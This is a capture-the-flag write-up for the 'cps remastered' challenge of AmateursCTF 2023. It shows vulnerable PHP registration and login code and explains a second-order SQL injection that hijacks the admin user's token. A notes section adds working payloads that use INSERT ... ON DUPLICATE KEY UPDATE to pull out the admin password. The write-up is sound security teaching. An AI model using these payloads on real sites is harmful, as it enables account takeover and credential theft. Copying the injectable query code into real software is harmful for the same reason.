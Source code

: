 ```yaml
---
layout: post
title: AmateursCTF 2023
---
```


# cps remastered
![screenshot of challenge description](images/amateursctf/cps.png)
The description is already hinting at SQL injection so we know what we're getting into here
It didnt take too long to spot the SQLi in register.php
```php
<?php
    $message = "";
    mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);
    if (isset($_POST["username"]) && isset($_POST["password"])) {
        try{
            $mysqli = new mysqli("p:db", "app", "ead549a4a7c448926bfe5d0488e1a736798a9a8ee150418d27414bd02d37b9e5", "cps");
            $result = $mysqli->query(sprintf("INSERT INTO users (username, password) VALUES ('%s', '%s')", $_POST["username"], $_POST["password"]));
            if ($result) {
                $token = bin2hex(random_bytes(16));
                $add_token = $mysqli->query(sprintf("INSERT INTO tokens (token, username) VALUES ('%s', '%s')", $token, $_POST["username"]));
                if ($add_token) {
                    setcookie("token", $token);
                    $message = "<p>Successfully created account. You are now logged in</p>";
                }
            } else {
                $message = "<p>Something went wrong. Username " + $_POST["username"] + " (might) have been taken already</p>";
            }
        } catch (Exception $e) {
            if (str_starts_with($e, "mysqli_sql_exception: Duplicate entry '") and str_contains($e, "' for key 'PRIMARY'")) {
                $message = sprintf("<p>Something went wrong. Username starting with %s has been taken already</p>", substr(explode("' for key", substr($e, 39))[0], 0, 5));
            }
        }

    }
?>
```

I thought we could update password field using the insert query however the permissions for the SQL user only allow us to update the best_cps column.


```sql
CREATE USER 'app' @'%' IDENTIFIED BY 'ead549a4a7c448926bfe5d0488e1a736798a9a8ee150418d27414bd02d37b9e5';
GRANT SELECT ON cps.* TO 'app' @'%';
GRANT INSERT ON cps.* TO 'app' @'%';
GRANT UPDATE (best_cps) ON cps.users TO 'app' @'%';
FLUSH PRIVILEGES;
```

So instead let's look at this other SQLi in login.php

```php
<?php
    $message = "";
    mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);
    if (isset($_POST["username"]) && isset($_POST["password"])) {
        $mysqli = new mysqli("p:db", "app", "ead549a4a7c448926bfe5d0488e1a736798a9a8ee150418d27414bd02d37b9e5", "cps");
        $stmt = $mysqli->prepare("SELECT username, password FROM users WHERE username = ? AND password = ?");
        $stmt->bind_param("ss", $_POST["username"], $_POST["password"]);
        $stmt->execute();
        $result = $stmt->get_result();
        $row = $result->fetch_assoc();
        if ($row) {
            $token = bin2hex(random_bytes(16));
            $add_token = $mysqli->query(sprintf("INSERT INTO tokens (token, username) VALUES ('%s', '%s')", $token, $_POST["username"]));
            if ($add_token) {
                setcookie("token", $token);
                echo "<p>You are now logged in</p>";
            }
        } else {
            echo "<p>Something went wrong.</p>";
        }

    }
?>
```

On first glance it might seem like we can't exploit the SQLi in the INSERT query however if we register an account with our payload as it's username we can reach the vulnerable query.

So register a user with the username `admin\');-- -` - we need to escape the quote as register.php itself is injectable.
Afterwards log in as the user we just created and we get the flag on the index (flag was password of admin user).
What our injection does here is make the token we have the token for the admin user instead of the user we created.

Flag: `amateursCTF{h0w_f@st_can_you_cl1ck?}`
![screen shot of flag on cps](images/amateursctf/cpsflagged.png)

## Other notes from cps remastered
The intended solution was to extract the flag bit by bit using boolean based blind.
If we did have UPDATE permissions for password column we could extract data through the password field in our INSERT query like this:
Username: myuser
Password: `xd'),('myuser','derp') ON DUPLICATE KEY UPDATE password=@@version-- -`
Query: 
```sql
INSERT INTO users (username, password) VALUES ('myuser', 'xd'),('myuser','derp') ON DUPLICATE KEY UPDATE password=@@version-- -')
```

While exploiting this you may get an error like:
` Error in query (1093): Table ‘users’ is specified twice, both as a target for ‘INSERT’ and as a separate source for data`
You can work around this issue using subqueries:
`xd'),('myuser','derp') ON DUPLICATE KEY UPDATE password=(SELECT t.password FROM (SELECT * FROM users t WHERE t.username='admin') as t)-- -`

